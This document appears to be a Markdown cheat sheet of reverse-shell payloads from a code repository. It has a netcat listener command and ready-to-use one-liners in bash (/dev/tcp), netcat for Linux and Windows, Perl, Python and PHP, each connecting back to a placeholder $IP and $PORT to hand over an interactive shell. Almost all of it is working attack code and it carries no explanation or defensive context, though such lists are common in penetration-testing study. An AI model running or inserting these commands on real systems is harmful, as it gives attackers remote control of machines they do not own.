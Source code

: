 # Reverse Shell

- [Reverse Shell](#reverse-shell)
  - [Listner](#listner)
  - [Bash](#bash)
  - [Netcat](#netcat)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)

## Listner

---

```bash
 nc -nvlp $PORt
```

## Bash

---

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

## Netcat

---
### Linux

```bash
nc -nv $IP $PORT -e /bin/bash
```

### Windows

```bash
nc.exe -nv $IP $PORT -e cmd
```

## Perl

---

```bash
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S ,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(" /bin/bash -i");};'
```

## Python

---

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

---

```bash
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```